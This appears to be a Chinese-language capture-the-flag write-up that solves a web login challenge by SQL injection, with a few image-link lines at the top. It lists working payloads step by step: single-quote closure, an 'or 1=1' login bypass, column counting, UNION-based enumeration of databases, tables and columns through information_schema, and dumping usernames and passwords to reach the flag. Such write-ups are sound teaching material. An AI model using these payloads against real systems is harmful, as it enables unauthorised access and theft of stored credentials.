



首先判断闭合，发现只有单引号时才报错，所以可以判断为单引号闭合



尝试一些经典的SQL注入

```
1
1'
1' or '1' = '1#
1' or 1=1#
```

使用万能密码成功登录

```
1' or 1=1#
```


先试一下是否是MD5加密，结果发现不是

[md5在线解密破解,md5解密加密](https://www.cmd5.com/)

先用order by来查看他有多少列

```
1’ order by 4#
```

报错了


最终经过二分法测试有3列

```
1' order by 3#
```

正常回显


查看回显位有哪些

```
1' union select 1,2,3#
```


查看库名

```
-1' union select 1,database(),3#
```


也可以爆库

```
1' union select 1,group_concat(schema_name),3 from information_schema.schemata#
```


查看表名

```
1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='geek'#

或者爆表
1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
```


查看两个表的列名

```
查看第一个表
1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='geekuser'#

查看第二个表
1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'#
发现两表结果相同
```


查看id，username，password的内容

```
1' union select 1,2,group_concat(id,username,password) from geekuser#
```



查看另一个表的id，username，password的内容

```
1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1#
```



得到了flag
